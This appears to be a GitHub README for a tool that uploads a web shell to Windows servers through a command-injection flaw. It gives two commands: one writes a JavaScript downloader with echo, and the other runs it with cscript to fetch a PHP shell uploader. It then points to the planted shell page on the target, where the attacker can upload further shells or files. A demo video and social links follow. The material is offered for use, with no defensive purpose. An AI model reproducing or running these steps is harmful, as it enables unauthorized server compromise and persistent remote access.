 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files.

# Video

[![Video](https://i.imgur.com/WjJJT7D.png)](https://youtu.be/H5F93uEK7ME)

Youtube  : https://www.youtube.com/DigitalHackerOfficial
Facebook : https://www.facebook.com/DigitalHackerOfficial
Twitter  : https://twitter.com/Shehryar_DH
Google+  : https://plus.google.com/+DigitalHacker
Email    : digitalhacker07@gmail.com
